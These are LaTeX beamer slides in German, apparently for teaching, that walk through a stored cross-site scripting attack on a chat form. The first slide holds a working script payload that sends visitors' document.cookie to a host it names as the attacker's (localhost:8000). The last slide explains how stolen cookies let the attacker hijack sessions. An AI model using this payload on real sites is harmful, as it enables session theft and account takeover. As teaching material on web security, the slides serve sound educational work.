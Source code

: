 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Wir verwenden die XSS-Sicherheitsl\"ucke im Formular, um unser eigenes Script in die Seite zu integrieren.
    \item Wir F\"ullen das Feld 'new message' wie folgt:

    \begin{lstlisting}[style=PHPStyle]
      Please no Offtop in this thread.
      <script>
        img = new Image();
        img.src = "http://localhost:8000/cat.jpg?"+document.cookie;
      </script>
    \end{lstlisting}
    \item Annahme: die Zieladdresse (http://localhost:8000) geh\"ort zum Angreifer.
  \end{itemize}
\end{frame}


\begin{frame}[fragile]{XSS - Beispiel}
  \begin{figure}[ht]
      \centering
      \includegraphics[width=\textwidth]{XSS-2.png}
      \caption{Nach der Integration des Skripts}
      \label{fig:figure2}
  \end{figure}
\end{frame}

\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Da die Website die Eingabe nicht \"uberpr\"uft, gelangt unser Skript in den Chat.
    \item Ab jetzt sendet jeder Besucher der Seites seine Cookies zum Angreifer.
    \item Der Angriff dauert, bis der richtige Benutzer die Seite aufruft.
    \item Der Angreifer kann dann in seinem Browser Cookie-Werte ersetzen, so dass die Website ihn als Benutzer nimmt.
  \end{itemize}
\end{frame}
\end{document}
